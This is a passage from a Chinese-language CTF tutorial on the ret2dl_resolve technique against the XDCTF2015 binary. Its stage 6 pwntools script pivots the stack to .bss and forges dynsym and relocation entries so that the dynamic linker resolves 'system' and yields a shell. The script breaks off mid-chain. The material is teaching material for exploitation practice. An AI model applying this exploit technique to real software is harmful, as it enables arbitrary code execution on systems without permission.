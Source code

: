 ## 7.stage6

这一阶段，我们只需要将原先的 write 字符串修改为 system 字符串，同时修改 write 的参数为 system 的参数即可获取 shell。这是因为，dl_resolve 最终依赖的是我们所给定的字符串，即使我们给了一个假的字符串它仍然会去解析并执行。具体代码如下

```python
from pwn import *
elf = ELF('main')
r = process('./main')
rop = ROP('./main')

offset = 112
bss_addr = elf.bss()

r.recvuntil('Welcome to XDCTF2015~!\n')

## stack pivoting to bss segment
## new stack size is 0x800
stack_size = 0x800
base_stage = bss_addr + stack_size
### padding
rop.raw('a' * offset)
### read 100 byte to base_stage
rop.read(0, base_stage, 100)
### stack pivoting, set esp = base_stage
rop.migrate(base_stage)
r.sendline(rop.chain())

## write sh="/bin/sh"
rop = ROP('./main')
sh = "/bin/sh"

plt0 = elf.get_section_by_name('.plt').header.sh_addr
rel_plt = elf.get_section_by_name('.rel.plt').header.sh_addr
dynsym = elf.get_section_by_name('.dynsym').header.sh_addr
dynstr = elf.get_section_by_name('.dynstr').header.sh_addr

### making fake write symbol
fake_sym_addr = base_stage + 32
align = 0x10 - ((fake_sym_addr - dynsym) & 0xf
                )  # since the size of item(Elf32_Symbol) of dynsym is 0x10
fake_sym_addr = fake_sym_addr + align
index_dynsym = (
    fake_sym_addr - dynsym) / 0x10  # calculate the dynsym index of write
## plus 10 since the size of Elf32_Sym is 16.
st_name = fake_sym_addr + 0x10 - dynstr
fake_write_sym = flat([st_name, 0, 0, 0x12])

### making fake write relocation

## making base_stage+24 ---> fake reloc
index_offset = base_stage + 24 - rel_plt
write_got = elf.got['write']
r_info = (index_dynsym << 8) | 0x7
fake_write_reloc = flat([write_got, r_info])

rop.raw(plt0)
rop.raw(index_offset)
## fake ret addr of write
rop.raw('bbbb')
rop.raw(base_stage + 82)
rop.raw('bbbb')
rop.raw('bbbb')
rop.raw(fake_write_reloc)  # fake write reloc
```